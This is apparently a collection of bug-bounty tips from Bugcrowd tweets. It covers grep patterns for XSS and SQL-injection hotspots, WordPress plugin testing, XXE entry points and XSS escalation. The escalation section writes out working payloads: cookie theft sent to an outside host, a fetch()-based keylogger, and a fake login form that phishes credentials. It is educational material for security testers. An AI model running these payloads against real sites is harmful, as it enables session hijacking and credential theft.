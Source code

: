 # Bugcrowd Tip Jar

## More complex = Less Secure

Source: https://twitter.com/Bugcrowd/status/1352126283505922049

```
When hunting for bugs, look for features that are complex. As a rule of thumb:

More complex = less secure.
```

## Grep for Code Analysis

Source: https://twitter.com/Bugcrowd/status/1349525327811231745

```
If you're hunting for low-hanging bugs in source code, grep and regex can help you to identify hotspots. For example, you might find basic rXSS in PHP with something like this:

grep -r "echo.*\$_\(GET\|REQUEST\|POST\)" .

Or to uncover potential SQL injection you could try:

grep -r "SELECT.*\\.\\ \\$" .

It will still take some manual work, but this can be a good way to focus your attention on the most obvious weak points.

To take this technique to the next level, checkout gf by tomnomnom: https://github.com/tomnomnom/gf.

For some more tasty regex ideas, checkout the [Trufflehog regexes](https://github.com/dxa4481/truffleHogRegexes/blob/master/truffleHogRegexes/regexes.json).
```

## Wordpress Plugins

Source: https://twitter.com/Bugcrowd/status/1347015120287916032

```
Found a Wordpress site? The easiest place to find bugs is in the plugins.

1. Find the installed plugins with WPScan
2. Set up your own WP instance and install the same plugins
3. Hack your own instance
4. Report your bugs!

The most common bug you'll find with this method is XSS
```

## Common XXE Weakpoints

Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```
